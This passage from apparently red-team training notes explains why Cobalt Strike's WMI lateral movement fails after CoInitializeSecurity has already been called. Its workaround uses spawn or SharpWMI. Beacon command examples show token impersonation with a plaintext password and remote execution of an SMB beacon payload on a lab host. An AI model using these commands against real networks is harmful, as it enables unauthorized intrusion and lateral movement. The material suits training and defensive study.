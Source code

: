 It allows us to rapidly extend Beacon agent with new post-exploitation features.
{% endhint %}

Beacon's internal implementation of WMI uses a [<mark style="color:yellow;">`Beacon Object File`</mark>](https://cobaltstrike.com/help-beacon-object-files), executed using the [<mark style="color:yellow;">`beacon_inline`</mark>_<mark style="color:yellow;">`_`</mark>_<mark style="color:yellow;">`execute`</mark>](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_inline_execute) Aggressor function. When a BOF is executed the [<mark style="color:yellow;">`CoInitializeSecurity`</mark>](https://docs.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-coinitializesecurity) `COM` object can be called, which is used to set the security context for the current process.

According to Microsoft's documentation, this can only be called once per process.

The unfortunate consequence is that you will have `CoInitializeSecurity` get called in the context of (for example), _**User A**_, then future BOFs may not be able to inherit a different security context (_**User B**_) for the lifetime of the Beacon process.

### Example

**This can look like the following:**

```
beacon> make_token DEV\jking Qwerty123
[+] Impersonated DEV\bfarmer

beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to web.dev.cyberbotic.io: 5
```

We know that `jking` is a local admin on `WEB` but because `CoInitializeSecurity` has already been called (probably in the context of `bfarmer`), WMI will fail with an `ACCESS DENIED` result.

### Workaround?

_<mark style="color:yellow;">**Your WMI execution must come from a different process.**</mark>_

This can be achieved with commands such as <mark style="color:yellow;">`spawn`</mark> and <mark style="color:yellow;">`spawnas`</mark>, or even <mark style="color:yellow;">`execute-assembly`</mark> with a tool such as <mark style="color:yellow;">`SharpWMI`</mark>.

```
beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=web.dev.cyberbotic.io command="C:\Windows\smb_x64.exe"

[*] Host                           : web.dev.cyberbotic.io
[*] Command                        : C:\Windows\smb_x64.exe
[*] Creation of process returned   : 0
[*] Process ID                     : 3436
```

## Distributed Component Object Model (DCOM)

### What is it?
